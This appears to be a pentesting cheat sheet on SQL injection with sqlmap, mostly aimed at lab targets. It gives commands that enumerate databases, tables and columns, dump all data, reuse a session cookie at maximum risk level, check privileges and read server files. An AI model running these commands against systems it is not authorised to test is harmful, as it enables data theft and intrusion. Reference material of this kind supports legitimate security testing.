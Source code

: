 Sql Injection

### Sqlmap

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:
```javascript
http://192.168.1.104/Less-1/?id=5'
````

#### List databases


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```
#### List tables


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

```bash
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file

```bash
./sqlmap.py -u <URL> --file-read=<file to read>
```
